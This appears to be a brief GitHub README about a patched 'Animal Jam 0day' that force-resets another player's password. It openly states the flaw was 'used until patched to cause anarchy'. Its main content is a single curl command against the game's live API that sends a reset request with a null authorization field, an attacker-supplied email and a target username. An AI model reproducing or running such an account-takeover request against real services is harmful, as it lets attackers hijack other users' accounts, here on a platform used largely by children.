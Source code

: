 ## Animal Jam 0day

Now patched 0day for force reseting an accounts password

Discovered by MoonManMafia
Program made by HellSec

Used until patched to cause anarchy.

________________________________

```bash
curl -X POST -F 'authorization=null' -F 'email=youremail@test.com' https://api.animaljam.com/game_account/TARGET_USERNAME/send_password_reset/desktop
```

